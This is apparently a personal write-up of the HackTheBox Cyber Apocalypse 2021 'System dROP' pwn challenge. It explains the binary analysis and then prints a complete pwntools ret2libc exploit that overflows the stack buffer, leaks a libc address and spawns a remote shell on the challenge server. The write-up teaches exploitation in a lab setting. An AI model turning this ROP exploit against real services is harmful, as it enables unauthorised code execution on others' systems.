

# CTF HackTheBox 2021 Cyber Apocalypse 2021 - System dROP

Category: Pwn, Points: 325




Attached file [pwn_system_drop.zip](pwn_system_drop.zip)

# System dROP Solution

Let's check the binary using ```checksec```:
```
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ checksec system_drop
[*] '/ctf_htb/cyber_apocalypse/pwn/system_drop/system_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

[Partial RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/), [No Canary](https://ctf101.org/binary-exploitation/stack-canaries/), [NX enabled](https://ctf101.org/binary-exploitation/no-execute/) and [No PIE](https://en.wikipedia.org/wiki/Position-independent_code).

By running the binary we get the following:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ ./system_drop

```

Nothing.

By observe the code using [Ghidra](https://ghidra-sre.org/) we can see the ```main``` function:
```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  alarm(0xf);
  read(0,local_28,0x100);
  return 1;
}
```

So let's calculate the offset between the buffer to ```rip``` using ```gdb``` by set breakpoint right after ```read```:
```asm
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ gdb -q system_drop
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000000000400541 <+0>:	push   rbp
   0x0000000000400542 <+1>:	mov    rbp,rsp
   0x0000000000400545 <+4>:	sub    rsp,0x20
   0x0000000000400549 <+8>:	mov    edi,0xf
   0x000000000040054e <+13>:	call   0x400430 <alarm@plt>
   0x0000000000400553 <+18>:	lea    rax,[rbp-0x20]
   0x0000000000400557 <+22>:	mov    edx,0x100
   0x000000000040055c <+27>:	mov    rsi,rax
   0x000000000040055f <+30>:	mov    edi,0x0
   0x0000000000400564 <+35>:	call   0x400440 <read@plt>
   0x0000000000400569 <+40>:	mov    eax,0x1
   0x000000000040056e <+45>:	leave  
   0x000000000040056f <+46>:	ret    
End of assembler dump.
gef➤  b *0x0000000000400569
Breakpoint 1 at 0x400569
gef➤ r
AAAAAAAA
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdf20 - 0x7fffffffdf28  →   "AAAAAAAA[...]" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdf50:
 rip = 0x400569 in main; saved rip = 0x7ffff7a03bf7
 Arglist at 0x7fffffffdf40, args: 
 Locals at 0x7fffffffdf40, Previous frame's sp is 0x7fffffffdf50
 Saved registers:
  rbp at 0x7fffffffdf40, rip at 0x7fffffffdf48
```

So we can see the buffer located on ```0x7fffffffdf20``` where ```rip``` at ```0x7fffffffdf48```, So ```0x7fffffffdf48-0x7fffffffdf20=0x28```, So the offset is 0x28 (40) bytes:
```
|...buffer 32 bytes...|...8 bytes...|...rip...| ...
```

By observe the binary we can see the following function ```_syscall```:
```c

long _syscall(long __sysno,...)
{
  long in_RAX;
  
  syscall();
  return in_RAX;
}
```

So using the function above we can make calls to ```syscall```, According the [Linux System Call Table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) if we want to make a syscall we need to set value in ```rax```, By using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) we can see that we don't have gadget to control ```rax```.

So first, We need to leak some address from binary - that's will help us to calculate the libc address.

We can leak ```alarm``` function using ```read``` function by calling to ```syscall``, To make it we need to intiallize the following registers [Linux System Call Table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/):
```
%rax	System call		%rdi				%rsi		%rdx		
0		sys_read		unsigned int fd		char *buf	size_t count
```

So using ```gdb``` we can get the address of ```syscall``` and ```read```:
```asm
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000000000400541 <+0>:	push   rbp
   0x0000000000400542 <+1>:	mov    rbp,rsp
   0x0000000000400545 <+4>:	sub    rsp,0x20
   0x0000000000400549 <+8>:	mov    edi,0xf
   0x000000000040054e <+13>:	call   0x400430 <alarm@plt>
   0x0000000000400553 <+18>:	lea    rax,[rbp-0x20]
   0x0000000000400557 <+22>:	mov    edx,0x100
   0x000000000040055c <+27>:	mov    rsi,rax
   0x000000000040055f <+30>:	mov    edi,0x0
   0x0000000000400564 <+35>:	call   0x400440 <read@plt>
=> 0x0000000000400569 <+40>:	mov    eax,0x1
   0x000000000040056e <+45>:	leave  
   0x000000000040056f <+46>:	ret 
 ```
 
```read``` located on ```0x400440 <read@plt>```.

```asm
gef➤  disassemble _syscall 
Dump of assembler code for function _syscall:
   0x0000000000400537 <+0>:	push   rbp
   0x0000000000400538 <+1>:	mov    rbp,rsp
   0x000000000040053b <+4>:	syscall 
   0x000000000040053d <+6>:	ret    
   0x000000000040053e <+7>:	nop
   0x000000000040053f <+8>:	pop    rbp
   0x0000000000400540 <+9>:	ret    
End of assembler dump.
```

```syscal``` located on ```0x40053b <+4>:	syscall```

We need to find gadget to ```rax```, ```rdi``` and ```rsi```:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ ROPgadget --binary system_drop | grep "pop rdi"
0x00000000004005d3 : pop rdi ; ret
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ ROPgadget --binary system_drop | grep "pop rsi"
0x00000000004005d1 : pop rsi ; pop r15 ; ret
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ ROPgadget --binary system_drop | grep "pop rax"
```

So we found gadgets only for ```rdi``` and ```rsi```, We still need to find gadget to ```rax```.

According [read](https://man7.org/linux/man-pages/man2/read.2.html) function, If we call ```read``` function it will make ```rax``` to be 1 and this exactly what we need (becuse ```write``` system call required 1 in ```rax``` register).

Next we need to call ```write``` to leak ```alarm``` address and finally to return again to main function (By calling to ```_start``` function which we can get ```_start``` function using ```gdb``` command ```p _start```.

So the plan is:
1. Call ```read``` function, send input with length 1.
2. Call ```write``` function to leak ```alarm``` address.
3. Calculate libc address according ```alarm``` leak.
4. pop shell.

So let's write it:
```python
from pwn import *

elf = ELF('./system_drop')
libc = elf.libc

if args.REMOTE:
    p = remote('46.101.23.157',31121)
else:
    p = process(elf.path)

# gadgets
_start = 0x400450 # gdb: p _start
pop_rdi = 0x4005d3 #0x4005d3 # ROPgadget
pop_rsi_r15 = 0x4005d1 # ROPgadget
syscall = 0x40053b # gdb: disassemble _syscall
read = 0x400440 # gdb: disassemble main


leak_buff = b'A'*0x28 # Calculated offset
leak_buff += p64(pop_rdi)
leak_buff += p64(1) # fd=stdout=1
leak_buff += p64(pop_rsi_r15)
leak_buff += p64(elf.got['alarm']) # we want to leak alarm function address
leak_buff += p64(0)
leak_buff += p64(syscall) # call syscall with the arguments above
leak_buff += p64(_start) # return back to main

p.send(leak_buff)
leak_alarm = u64(p.recv(8))
log.info('Leaked alarm: %s' % hex(leak_alarm))
libc.address = leak_alarm - libc.sym.alarm
system = libc.sym.system
bin_sh = libc.search(b"/bin/sh").__next__()
log.info('Libc system @ %s' % hex(system))
log.info('Libc bin_sh @ %s' % hex(bin_sh))
p.recv()
```

So first, We define all gadgets we got before using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).
Next, Build the leak_buff, Start with 0x28 garbage bytes (to fill the offset between the buffer to ```rip```), using ```pop_rdi``` gadget to write 1 to rdi (which 1 is stdout), ```pop_rsi_r15``` gadget using to write the address of ```alarm``` function to ```rsi``` register to make ```write``` function to print ```alarm``` address, Then we use ```syscall``` gadget to call ```write``` function (as remember after ```read()``` function ```rax``` register set to 1), and then we return again to ```_start``` function.

The second part received 8 bytes output from ```write``` function, those bytes are ```alarm``` address, Then we just calculated the libc address, and finally we can get the address of ```system``` and ```/bin/sh``` string. 

Let's run it:
```python
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ python3 exploit.python
[*] '/ctf_htb/cyber_apocalypse/pwn/system_dropsystem_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf_htb/cyber_apocalypse/pwn/system_drop/system_drop': pid 26224
[*] Leaked alarm: 0x7f3f4fdda610
[*] Libc system @ 0x7f3f4fd45550
[*] Libc bin_sh @ 0x7f3f4fea9e1a
```

And we have relevants leaked address.

Now, It's basically call to ```system``` with ```/bin/sh``` and we can pop shell (ret2libc).

```python
# shell buffer
shell_buf = b'A'*0x28
shell_buf += p64(pop_rdi)
shell_buf += p64(bin_sh)
shell_buf += p64(pop_rsi_r15)
shell_buf += p64(0)
shell_buf += p64(0)
shell_buf += p64(system)

p.send(shell_buf)

p.interactive()
```

First,we send 0x28 bytes of garbage (as mentioned before), Write ```/bin/sh``` to rdi which is the file name, and set on ```rsi``` and ```rdx``` 0.

So let's write all together in [exploit.py](exploit.py):
```python
from pwn import *

elf = ELF('./system_drop')
libc = elf.libc

if args.REMOTE:
    p = remote('46.101.23.157',31121)
else:
    p = process(elf.path)

# gadgets
_start = 0x400450 # gdb: p _start
pop_rdi = 0x4005d3 #0x4005d3 # ROPgadget
pop_rsi_r15 = 0x4005d1 # ROPgadget
syscall = 0x40053b # gdb: disassemble _syscall
read = 0x400440 # gdb: disassemble main


leak_buff = b'A'*0x28 # Calculated offset
leak_buff += p64(pop_rdi)
leak_buff += p64(1) # fd=stdout=1
leak_buff += p64(pop_rsi_r15)
leak_buff += p64(elf.got['alarm']) # we want to leak alarm function address
leak_buff += p64(0)
leak_buff += p64(syscall) # call syscall with the arguments above
leak_buff += p64(_start) # return back to main

p.send(leak_buff)
leak_alarm = u64(p.recv(8))
log.info('Leaked alarm: %s' % hex(leak_alarm))
libc.address = leak_alarm - libc.sym.alarm
system = libc.sym.system
bin_sh = libc.search(b"/bin/sh").__next__()
log.info('Libc system @ %s' % hex(system))
log.info('Libc bin_sh @ %s' % hex(bin_sh))
p.recv()


# shell buffer
shell_buf = b'A'*40
shell_buf += p64(pop_rdi)
shell_buf += p64(bin_sh)
shell_buf += p64(pop_rsi_r15)
shell_buf += p64(0)
shell_buf += p64(0)
shell_buf += p64(system)

p.send(shell_buf)

p.interactive()
```

Run it locally:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ python3 exploit.python
[*] '/ctf_htb/cyber_apocalypse/pwn/system_dropsystem_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf_htb/cyber_apocalypse/pwn/system_drop/system_drop': pid 26224
[*] Leaked alarm: 0x7f3f4fdda610
[*] Libc system @ 0x7f3f4fd45550
[*] Libc bin_sh @ 0x7f3f4fea9e1a
[*] Switching to interactive mode
$ ls
exploit.py  system_drop
```

And we pop shell, Let's run it with ```REMOTE=1``` to get the flag:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ python3 exploit.python REMOTE=1
[*] '/ctf_htb/cyber_apocalypse/pwn/system_dropsystem_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 46.101.23.157 on port 31121: Done
[*] Switching to interactive mode
$ cat flag.txt
CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}	
```

And we get the flag ```CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}```.